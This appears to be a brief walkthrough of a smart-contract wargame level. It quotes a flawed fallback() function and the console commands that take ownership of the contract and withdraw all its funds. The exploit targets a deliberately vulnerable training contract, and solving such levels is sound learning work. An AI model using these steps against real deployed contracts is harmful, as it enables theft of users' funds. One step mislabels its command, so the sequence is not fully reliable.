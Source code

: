 -The fallback() function contained the lined

`if (contributions[msg.sender] > 0) {
    owner = msg.sender;
}
`

-Understood that if we send ether directly to the contract and we alreadty have a contribution, we can become the owner

`
await contract.contribute.sendTransaction({ from: player, value: 1 });
`

-Once we have become the owner, call the withdraw() function and take out all the funds

`
await contract.sendTransaction({ from: player, value: 1 });
`

- Verfied the ownership by
  
`
await contract.owner();
`

- After ownership verification, we can withdraw

`
await contract.withdraw();
`
-Completed the level by submitting the instance
